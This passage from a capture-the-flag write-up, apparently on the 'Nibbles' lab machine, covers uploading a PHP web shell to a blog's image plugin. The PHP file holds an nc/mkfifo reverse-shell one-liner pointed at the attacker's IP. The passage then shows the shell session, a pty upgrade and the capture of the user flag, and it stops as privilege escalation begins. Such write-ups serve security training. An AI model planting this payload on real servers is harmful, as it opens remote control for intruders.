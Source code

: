 Next, create a php file with the reverse shell command:
```
$ echo "<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.46 9443 >/tmp/f'); ?>" > reverse.php
```
(Also if you noticed an IP change in the middle somewhere it was cause I forgot to renew the timer)

How do I know my IP, use `ifconfig`:
```
$ ifconfig
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.15.46  netmask 255.255.254.0  destination 10.10.15.46
        inet6 dead:beef:2::112c  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::4919:66a6:9e9b:353a  prefixlen 64  scopeid 0x20<link>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        RX packets 79994  bytes 6825774 (6.8 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 83963  bytes 4886213 (4.8 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```

When we upload this php to the images and do as we did all over to execute it, we now have a successful reverse shell!
```
$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.184.244 40448
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
/bin/sh: 1: python: not found
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cd /home
<ml/nibbleblog/content/private/plugins/my_image$ cd /home                    
nibbler@Nibbles:/home$ ls
ls
nibbler
nibbler@Nibbles:/home$ cd nibbler
cd nibbler
nibbler@Nibbles:/home/nibbler$ ls
ls
personal.zip  user.txt
nibbler@Nibbles:/home/nibbler$ cat user.txt
cat user.txt
79c03865431abf47b90ef24b9695e148
```

So as you see python was not installed but usually its python3 that's installed. So a rough guess came correct.

Also, I have not forgotten that we are also able to exploit the metasploit but this was another excellent finding.

Now, the last thing that remains is to escalate privs.
So, let's first check what privs we have using:
```
$ sudo -l
```
